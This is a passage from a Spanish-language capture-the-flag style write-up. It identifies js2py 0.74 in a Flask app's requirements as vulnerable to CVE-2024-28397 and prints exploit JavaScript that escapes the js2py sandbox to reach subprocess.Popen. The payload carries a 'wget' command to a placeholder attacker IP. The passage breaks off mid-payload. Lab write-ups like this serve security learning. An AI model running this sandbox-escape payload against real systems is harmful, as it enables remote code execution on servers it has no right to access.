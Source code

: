 ```python
        db.create_all()
    app.run(host='0.0.0.0', debug=True)
```

Vemos que hay una vulnerabilidad en la version de una libreria llamada `js2py` en el `requirements.txt`:

```
flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74
```

Si empezamos a buscar informacion de dicha vulnerabilidad, veremos el siguiente `CVE`:

URL = [js2py 0.74 CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

Por lo que vemos se puede realizar un `RCE` mediante codigo de `JS`, por lo que vamos a registrarnos en la pagina ya que podemos, y despues una vez autenticados veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-19 164832.png" alt=""><figcaption></figcaption></figure>

Vemos que podemos ejecutar codigo de `JS` y todo lo que ejecutemos se muestra en un `output` mas abajo, tambien podemos guardar el codigo, por lo que vamos aprovechar dicha vulnerabilidad para pegar el siguiente codigo:

```js
var cmd = "bash -c \"wget http://<IP>/\"";
var a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;
var obj = a(a(a, "__class__"), "__base__");

function findpopen(o) {
    for (var i in o.__subclasses__()) {
        var item = o.__subclasses__()[i];
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item;
        }
        if (item.__name__ != "type") {
            var result = findpopen(item);
            if (result) {
                return result;
            }
        }
    }
```